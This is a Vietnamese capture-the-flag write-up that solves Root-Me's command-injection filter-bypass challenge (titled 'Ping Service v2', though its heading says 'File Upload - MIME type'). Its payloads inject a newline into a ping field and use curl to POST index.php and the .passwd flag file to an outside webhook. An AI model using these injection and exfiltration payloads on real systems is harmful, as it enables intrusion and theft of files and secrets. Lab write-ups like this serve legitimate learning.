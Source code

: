 # File Upload - MIME type

**Tên challenge:** Ping Service v2

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)

**Tác giả challenge:** sambecks

**Mục tiêu challenge:** Find a vulnerability in this service and exploit it. Some protections were added. The flag is on the index.php file.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng Ping duy nhất:

![alt text](image.png)

**B2:** Ta thử điền google.com vào thì Website trả về kết quả như sau:

![alt text](image-1.png)

Đến đây thì ta có thể hình dung Website sẽ lấy input ta nhập vào rồi thực hiện cú pháp ping đến input đó.

**VD:** ping input_nguoidung

`Lúc này, câu hỏi đặt ra là: "Liệu Website có xử lý đúng cách input của người dùng không ? Và liệu ta có thể lợi dụng chức năng này để kéo dài câu lệnh và khiến cho hệ thống thực thi Command theo ý mình không ?"`

**B3:** Để tìm ra câu trả lời thì ta sẽ thử payload input như sau: `google.com; ls -la`

* <u>**Giải thích:**</u> google.com là để kết hợp với lệnh ping của hệ thống, sau đó ta sẽ thêm `; ls -la` để thử xem liệu Website có thực thi câu lệnh được kéo dài này của ta không ?
* Nếu như giả thuyết của ta đúng thì cú pháp của hệ thống lúc này sẽ như sau: `ping google.com; ls -la`

![alt text](image-2.png)

=> Xem ra Website đã filter input người dùng để hạn chế việc bị tấn công Command Injection.

Nhưng ngoài dấu `;` để nối dài câu lệnh Command trong Linux thì ta còn có thể dùng các dấu khác với chức năng tương tự như: `$`, `\`, `||`, `&&`, xuống dòng (`%0a`)

**B4:** Ta tiếp tục thử các cách trên thì chỉ duy nhất payload: `google.com%0als` là thành công

**Lưu ý:** Payload trên phải được chỉnh sửa qua gói tin trên Burp-suite vì khi thực hiện thẳng trên trình duyệt có thể sẽ không thành công.

![alt text](image-3.png)

=> Từ đây, ta có thể kết luận trang web đã thực thi Command của ta.

Tuy nhiên, kết quả trả về lại chỉ là `Ping OK`. Vậy thì làm sao ta mới đọc được file `index.php` mà đề bài yêu cầu.

* **Trả lời:** Do Website đã filter hết những ký tự có thể nối dài câu Command và chỉ chừa `%0a` cho nên rất khó đề ta có thể mò từng kết quả của lệnh. Cho nên, ta chỉ có thể đẩy file `index.php` ra ngoài Webhook của ta thông qua lệnh **curl**.

**B5:** Ta thử sử dụng lệnh `curl https://webhook_cua_ta` để xem thử Website có cho gói tin ra ngoài không thông qua payload `google.com%0acurl+https://webhook_cua_ta`

![alt text](image-4.png)

=> Vậy là ta có thể `curl` đến Webhook của ta.

**B6:** Ta chỉ cần dùng lệnh curl để lấy file index.php đưa lên Webhook của ta thông qua payload `google.com%0Acurl+-X+POST+-F+"file=@./index.php"+https://webhook_cua_ta`

* **Giải thích:** `./index.php` nghĩa là lấy file ở `index.php` ở thư mục hiện tại. Nếu không có dấu `.` thì lệnh sẽ tìm file ở thư mục `/` và có thể gây ra lỗi.

Sau khi gửi gói tin đi, trên Webhook của ta sẽ nhận được file index.php và khi tải file đó về mở ra thì ta biết được `Flag` đang nằm ở file `.passwd` cùng với thư mục chứa file `index.php`

**B7:** Ta tiếp tục dùng lệnh curl trên và thay đổi thành file `.passwd`: `google.com%0Acurl+-X+POST+-F+"file=@./.passwd"+https://webhook_cua_ta`
